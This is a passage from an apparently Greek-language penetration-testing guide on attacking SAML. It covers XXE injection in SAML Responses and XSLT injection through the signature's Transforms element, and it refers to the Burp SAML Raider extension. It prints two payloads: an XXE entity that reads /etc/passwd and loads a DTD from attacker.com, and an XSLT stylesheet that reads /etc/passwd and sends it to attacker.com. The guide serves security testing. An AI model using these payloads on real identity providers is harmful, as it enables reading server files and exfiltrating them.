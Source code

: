 Οι SAML Responses είναι **συμπιεσμένα και base64 κωδικοποιημένα XML έγγραφα** και μπορεί να είναι ευάλωτα σε επιθέσεις XML External Entity (XXE). Με την τροποποίηση της δομής XML της SAML Response, οι επιτιθέμενοι μπορούν να προσπαθήσουν να εκμεταλλευτούν τις ευπάθειες XXE. Να πώς μπορεί να οπτικοποιηθεί μια τέτοια επίθεση:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY    file SYSTEM "file:///etc/passwd">
<!ENTITY dtd SYSTEM "http://www.attacker.com/text.dtd" >]>
<samlp:Response ... ID="_df55c0bb940c687810b436395cf81760bb2e6a92f2" ...>
<saml:Issuer>...</saml:Issuer>
<ds:Signature ...>
<ds:SignedInfo>
<ds:CanonicalizationMethod .../>
<ds:SignatureMethod .../>
<ds:Reference URI="#_df55c0bb940c687810b436395cf81760bb2e6a92f2">...</ds:Reference>
</ds:SignedInfo>
<ds:SignatureValue>...</ds:SignatureValue>
[...]
```
## Tools

Μπορείτε επίσης να χρησιμοποιήσετε την επέκταση Burp [**SAML Raider**](https://portswigger.net/bappstore/c61cfa893bb14db4b01775554f7b802e) για να δημιουργήσετε το POC από ένα SAML request για να δοκιμάσετε πιθανές ευπάθειες XXE και SAML.

Ελέγξτε επίσης αυτή την ομιλία: [https://www.youtube.com/watch?v=WHn-6xHL7mI](https://www.youtube.com/watch?v=WHn-6xHL7mI)

## XSLT via SAML

Για περισσότερες πληροφορίες σχετικά με το XSLT, επισκεφθείτε:

{% content-ref url="../xslt-server-side-injection-extensible-stylesheet-language-transformations.md" %}
[xslt-server-side-injection-extensible-stylesheet-language-transformations.md](../xslt-server-side-injection-extensible-stylesheet-language-transformations.md)
{% endcontent-ref %}

Οι Επεκτάσιμες Μετασχηματισμοί Γλώσσας Στυλ (XSLT) μπορούν να χρησιμοποιηθούν για τη μετατροπή XML εγγράφων σε διάφορες μορφές όπως HTML, JSON ή PDF. Είναι κρίσιμο να σημειωθεί ότι **οι μετασχηματισμοί XSLT εκτελούνται πριν από την επαλήθευση της ψηφιακής υπογραφής**. Αυτό σημαίνει ότι μια επίθεση μπορεί να είναι επιτυχής ακόμη και χωρίς έγκυρη υπογραφή. Μια αυτο-υπογεγραμμένη ή μη έγκυρη υπογραφή είναι αρκετή για να προχωρήσετε.

Εδώ μπορείτε να βρείτε ένα **POC** για να ελέγξετε αυτό το είδος ευπαθειών, στη σελίδα hacktricks που αναφέρθηκε στην αρχή αυτής της ενότητας μπορείτε να βρείτε payloads.
```xml
<ds:Signature xmlns:ds="http://www.w3.org/2000/09/xmldsig#">
...
<ds:Transforms>
<ds:Transform>
<xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:template match="doc">
<xsl:variable name="file" select="unparsed-text('/etc/passwd')"/>
<xsl:variable name="escaped" select="encode-for-uri($file)"/>
<xsl:variable name="attackerUrl" select="'http://attacker.com/'"/>
<xsl:variable name="exploitUrl" select="concat($attackerUrl,$escaped)"/>
<xsl:value-of select="unparsed-text($exploitUrl)"/>
</xsl:template>
</xsl:stylesheet>
</ds:Transform>
</ds:Transforms>
...
```